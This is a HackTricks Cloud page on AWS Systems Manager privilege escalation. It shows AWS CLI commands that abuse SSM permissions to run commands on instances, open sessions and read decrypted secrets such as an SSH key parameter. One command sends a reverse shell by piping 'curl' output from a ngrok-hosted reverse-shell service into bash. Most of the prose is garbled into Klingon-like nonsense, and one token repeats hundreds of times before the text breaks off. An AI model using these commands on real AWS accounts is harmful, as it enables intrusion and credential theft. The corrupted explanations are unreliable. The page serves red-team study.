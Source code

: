 # AWS - SSM Privesc

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## SSM

For more info about SSM check:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

An attacker with the permission **`ssm:SendCommand`** can **execute commands in instances** running the Amazon SSM Agent and **compromise the IAM Role** running inside of it.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"

# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**Qa'legh:** SSM Agents jImejDaq EC2 IAM rolDaq SSM Agents jImejDaq chalDaq 'ej **SSH vItlhutlh** vItlhutlh 'ej **IAM Role** vItlhutlh 'e' vItlhutlh.

### `ssm:StartSession`

**`ssm:StartSession`** 'e' vItlhutlh permission vaj **SSH vItlhutlh** vItlhutlh 'ej **IAM Role** vItlhutlh 'e' vItlhutlh.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
QaStaHvIS **SessionManagerPlugin** qay'be'pu' 'e' vItlhutlh: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**qo'noS QaD:** SSM Agents vItlhutlh 'ej running instances laH EC2 IAM roles attached to privesc.

#### ECS privesc

**ECS tasks** **`ExecuteCommand` enabled** run, **'ej** permissions pagh users **`ecs execute-command`** **command execute** **container** 'ej.\
[**the documentation**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/) according to, **SSM Session Manager** target container 'ej **secure channel** created between the device you use to initiate the “_exec_“ command.\
Therefore, users with `ssm:StartSession` will be able to **get a shell inside ECS tasks** with that option enabled just running:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (55).png>)

**Qa'legh:** `ECS`IAM rolmeyvam vItlhutlhlaHbe'lu'chugh `ExecuteCommand` qarDaq `ECS` qarDaq 'e' vItlhutlhlaHbe'lu'chugh `ssm:ResumeSession` permission vItlhutlhlaHbe'lu'chugh.

### `ssm:ResumeSession`

**`ssm:ResumeSession`** permission vIghoSbe'lu'chugh 'ej **Amazon SSM Agent** vItlhutlhlaHbe'lu'chugh **SSM session** vItlhutlhlaHbe'lu'chugh **SSH like session** vItlhutlhlaHbe'lu'chugh 'ej **IAM Role** vItlhutlhlaHbe'lu'chugh.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**Qa'legh:** SSM Agents jatlh 'ej disconected sessions vaj SSM Agents 'ejmey EC2 IAM roles attached instances privesc Direct. 

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

mIw 'e' vItlhutlh permissions mentioned 'e' vItlhutlh 'ej **SSM parameters** **list** 'ej **read** **clear-text**. parameters 'ejmey 'ej **sensitive information** SSH keys API keys frequently **find**.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**QaDrwI'**: QaDrwI' jatlhqa'pu' 'ej **QaDrwI'** vItlhutlh **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **QaDrwI'** **Q
```
aws ssm list-commands
```
**Qapla'**: Qapla' jatlhlaHbe'chugh, command lines vItlhutlh. 

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

QaH attacker vItlhutlh permissions vItlhutlh, **commands** bIngDaq **list** 'ej **output** generated vItlhutlh, vaj 'ej vItlhutlh **sensitive information**.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**Qapla'!** Find sensitive information inside the output of the command lines.

### Codebuild

You can also use SSM to get inside a codebuild project being built:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
